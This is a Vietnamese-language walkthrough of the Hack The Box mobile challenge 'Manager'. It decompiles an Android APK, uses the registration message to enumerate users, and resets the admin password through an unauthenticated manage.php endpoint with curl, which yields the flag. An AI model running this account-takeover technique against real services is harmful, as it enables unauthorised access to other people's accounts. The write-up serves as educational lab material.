

> [!NOTE]
> - Mức độ: Dễ 
> - Loại: Challenge - Mobile
> - Url: [Manager](https://app.hackthebox.com/challenges/Manager)
> - Mô tả: Phân tích file apk khai thác lỗ hổng xác thực 

> Decompiler file `Manager.apk` bằng JADX 


> - File AndroidManifest.xml biết dịch vụ cần kết nối internet 
> - File khởi động là `com.example.manager.MainActivity` 
> - Các activity được khai báo LoginActivity, RegisterActivity, EditActivity

```xml
<?xml version="1.0" encoding="utf-8"?>  
<manifest xmlns:android="http://schemas.android.com/apk/res/android"  
    android:versionCode="1"  
    android:versionName="1.0"  
    android:compileSdkVersion="31"  
    android:compileSdkVersionCodename="12"  
    package="com.example.manager"  
    platformBuildVersionCode="31"  
    platformBuildVersionName="12">  
    <uses-sdk  
        android:minSdkVersion="21"  
        android:targetSdkVersion="31"/>  
    <uses-permission android:name="android.permission.INTERNET"/>  
    <application  
        android:theme="@style/Theme.Manager"  
        android:label="@string/app_name"  
        android:icon="@mipmap/ic_launcher"  
        android:allowBackup="true"  
        android:supportsRtl="true"  
        android:usesCleartextTraffic="true"  
        android:roundIcon="@mipmap/ic_launcher_round"  
        android:appComponentFactory="androidx.core.app.CoreComponentFactory">  
        <activity  
            android:name="com.example.manager.MainActivity"  
            android:exported="true">  
            <intent-filter>  
                <action android:name="android.intent.action.MAIN"/>  
                <category android:name="android.intent.category.LAUNCHER"/>  
            </intent-filter>  
        </activity>  
        <activity android:name="com.example.manager.LoginActivity"/>  
        <activity android:name="com.example.manager.RegisterActivity"/>  
        <activity android:name="com.example.manager.EditActivity"/>  
        <provider  
            android:name="androidx.startup.InitializationProvider"  
            android:exported="false"  
            android:authorities="com.example.manager.androidx-startup">  
            <meta-data  
                android:name="androidx.emoji2.text.EmojiCompatInitializer"  
                android:value="androidx.startup"/>  
            <meta-data  
                android:name="androidx.lifecycle.ProcessLifecycleInitializer"  
                android:value="androidx.startup"/>  
        </provider>  
    </application>  
</manifest>
```

> - File `com.example.manager.MainActivity` hiện thỉ form để người dùng nhập ip, port kết nối với server 

```java
public class MainActivity extends AppCompatActivity {  
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity  
    protected void onCreate(Bundle bundle) {  
        super.onCreate(bundle);  
        setContentView(R.layout.activity_main);  
        final EditText editText = (EditText) findViewById(R.id.etIP);  
        final EditText editText2 = (EditText) findViewById(R.id.etPort);  
        ((Button) findViewById(R.id.btnConnect)).setOnClickListener(new View.OnClickListener() { // from class: com.example.manager.MainActivity.1  
            @Override // android.view.View.OnClickListener  
            public void onClick(View view) {  
                String str = "http://" + editText.getText().toString() + ":" + editText2.getText().toString() + "/";  
                Intent intent = new Intent(MainActivity.this, (Class<?>) LoginActivity.class);  
                intent.putExtra("url", str);  
                MainActivity.this.startActivity(intent);  
            }  
        });  
    }  
}
```

> - RegisterActivity yêu cầu cung cấp thông tin username, password 
> - Nếu username đã tồn tại trả về `Username already taken!` có thể dùng cách này liệt kê người dùng 
> - Dựa vào đó ta phát hiện username 'admin' đã tồn tại 

```java
public void register() throws IOException {  
        String str = this.url + "register.php";  
        HttpURLConnection httpURLConnection = (HttpURLConnection) new URL(str).openConnection();  
        httpURLConnection.setConnectTimeout(10000);  
        httpURLConnection.setRequestMethod("POST");  
        httpURLConnection.setRequestProperty("User-Agent", "Mozilla/5.0");  
        httpURLConnection.setRequestProperty("Accept-Language", "en-US,en;q=0.5");  
        String str2 = "username=" + this.etUsername.getText().toString() + "&password=" + this.etPassword.getText().toString();  
        httpURLConnection.setDoOutput(true);  
        try {  
            DataOutputStream dataOutputStream = new DataOutputStream(httpURLConnection.getOutputStream());  
            try {  
                dataOutputStream.writeBytes(str2);  
                dataOutputStream.flush();  
                dataOutputStream.close();  
                int responseCode = httpURLConnection.getResponseCode();  
                System.out.println("\nSending 'POST' request to URL : " + str);  
                System.out.println("Post parameters : " + str2);  
                System.out.println("Response Code : " + responseCode);  
                BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(httpURLConnection.getInputStream()));  
                try {  
                    StringBuilder sb = new StringBuilder();  
                    while (true) {  
                        String line = bufferedReader.readLine();  
                        if (line == null) {  
                            break;  
                        } else {  
                            sb.append(line);  
                        }  
                    }  
                    if (sb.toString().equals("Username already taken!")) {  
                        Toast.makeText(this, "Username already taken!", 1).show();  
                    } else if (sb.toString().equals("Unable to register user!")) {  
                        Toast.makeText(this, "Unable to register user!", 1).show();  
                    } else if (sb.toString().equals("An error occurred!")) {  
                        Toast.makeText(this, "An error occurred!", 1).show();  
                        Intent intent = new Intent(this, (Class<?>) LoginActivity.class);  
                        intent.putExtra("url", this.url);  
                        startActivity(intent);  
                    } else {  
                        Toast.makeText(this, "User successfully created.", 1).show();  
                        Intent intent2 = new Intent(this, (Class<?>) EditActivity.class);  
                        intent2.putExtra("url", this.url);  
                        intent2.putExtra("info", sb.toString());  
                        startActivity(intent2);  
                    }  
                    bufferedReader.close();  
                } catch (Throwable th) {  
                    try {  
                        bufferedReader.close();  
                    } catch (Throwable th2) {  
                        th.addSuppressed(th2);  
                    }  
                    throw th;  
                }  
            } catch (Throwable th3) {  
                try {  
                    dataOutputStream.close();  
                } catch (Throwable th4) {  
                    th3.addSuppressed(th4);  
                }  
                throw th3;  
            }  
        } catch (SocketTimeoutException unused) {  
            Toast.makeText(this, "Check your internet connection!2", 1).show();  
        }  
    }
```




> - Sau khi đăng kí và đăng nhập sẽ được chuyển hướng đến `EditActivity`
> - Server sẽ trả về dữ liệu có các thông tin về id, username, password, role của người dùng khi đăng nhập thành công 

```
❯ curl -H 'User-Agent: Mozilla/5.0' -H 'User-Agent: en-US,en;q=0.5' -d 'username=test&password=test' http://154.57.164.69:32942/login.php -v 
*   Trying 154.57.164.69:32942...
* Established connection to 154.57.164.69 (154.57.164.69 port 32942) from 192.168.44.103 port 39902 
* using HTTP/1.x
> POST /login.php HTTP/1.1
> Host: 154.57.164.69:32942
> Accept: */*
> User-Agent: Mozilla/5.0
> User-Agent: en-US,en;q=0.5
> Content-Length: 27
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 27 bytes
< HTTP/1.1 200 OK
< Date: Tue, 20 Oct 2026 18:19:47 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Content-Length: 60
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 154.57.164.69:32942 left intact
{"id":5,"username":"test","password":"test","role":"member"}
```

> - `EditActivity` dùng để cập nhật thông tin xác thực của người dùng 
> - Tuy nhiên không có cơ chế xác định quyền hạn nào qua token hay session mà chỉ gửi thông tin gồm username, password 
> - Chỉ chặn sửa đổi username phía giao diện nhwung vẫn cần gửi username nên server 

```java
    public void update() throws IOException {  
        String str = this.url + "manage.php";  
        HttpURLConnection httpURLConnection = (HttpURLConnection) new URL(str).openConnection();  
        httpURLConnection.setRequestMethod("POST");  
        httpURLConnection.setRequestProperty("User-Agent", "Mozilla/5.0");  
        httpURLConnection.setRequestProperty("Accept-Language", "en-US,en;q=0.5");  
        String str2 = "username=" + this.tvUsername.getText().toString() + "&password=" + this.etPassword.getText().toString();  
        httpURLConnection.setDoOutput(true);  
        DataOutputStream dataOutputStream = new DataOutputStream(httpURLConnection.getOutputStream());  
        try {  
            dataOutputStream.writeBytes(str2);  
            dataOutputStream.flush();  
            dataOutputStream.close();  
            int responseCode = httpURLConnection.getResponseCode();  
            System.out.println("\nSending 'POST' request to URL : " + str);  
            System.out.println("Post parameters : " + str2);  
            System.out.println("Response Code : " + responseCode);  
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(httpURLConnection.getInputStream()));  
            try {  
                StringBuilder sb = new StringBuilder();  
                while (true) {  
                    String line = bufferedReader.readLine();  
                    if (line == null) {  
                        break;  
                    } else {  
                        sb.append(line);  
                    }  
                }  
                if (sb.toString().equals("An error occurred!")) {  
                    Toast.makeText(this, "An error occurred!", 1).show();  
                } else {  
                    Toast.makeText(this, "Password updated successfully.", 1).show();  
                    Intent intent = new Intent(this, (Class<?>) LoginActivity.class);  
                    intent.putExtra("url", this.url);  
                    startActivity(intent);  
                }  
                Log.d("rrrrrrrrrrrrrrr: ", sb.toString());  
                bufferedReader.close();  
            } catch (Throwable th) {  
                try {  
                    bufferedReader.close();  
                } catch (Throwable th2) {  
                    th.addSuppressed(th2);  
                }  
                throw th;  
            }  
        } catch (Throwable th3) {  
            try {  
                dataOutputStream.close();  
            } catch (Throwable th4) {  
                th3.addSuppressed(th4);  
            }  
            throw th3;  
        }  
    }
```

> - Khai thác lỗ hổng cập nhật thông tin xác thực này bằng cách cung cấp username 'admin' để cập nhật password của người dùng này qua dòng lệnh 

```
❯ curl -H 'User-Agent: Mozilla/5.0' -H 'User-Agent: en-US,en;q=0.5' -d 'username=admin&password=test' http://154.57.164.69:32942/manage.php -v 
*   Trying 154.57.164.69:32942...
* Established connection to 154.57.164.69 (154.57.164.69 port 32942) from 192.168.44.103 port 34278 
* using HTTP/1.x
> POST /manage.php HTTP/1.1
> Host: 154.57.164.69:32942
> Accept: */*
> User-Agent: Mozilla/5.0
> User-Agent: en-US,en;q=0.5
> Content-Length: 28
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 28 bytes
< HTTP/1.1 200 OK
< Date: Tue, 20 Oct 2026 18:24:00 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Content-Length: 30
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 154.57.164.69:32942 left intact
Password updated successfully
```

> - Kết nối đến server với thông tin xác thực mới cập nhật thu được flag 

```
❯ curl -H 'User-Agent: Mozilla/5.0' -H 'User-Agent: en-US,en;q=0.5' -d "username=admin&password=test" http://154.57.164.69:32942/login.php -v
*   Trying 154.57.164.69:32942...
* Established connection to 154.57.164.69 (154.57.164.69 port 32942) from 192.168.44.103 port 44898 
* using HTTP/1.x
> POST /login.php HTTP/1.1
> Host: 154.57.164.69:32942
> Accept: */*
> User-Agent: Mozilla/5.0
> User-Agent: en-US,en;q=0.5
> Content-Length: 28
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 28 bytes
< HTTP/1.1 200 OK
< Date: Tue, 20 Oct 2026 18:33:12 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 83
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 154.57.164.69:32942 left intact
{"id":1,"username":"admin","password":"test","role":"HTB{b4d_p@ss_m4n@g3m3nT_@pp}"}
```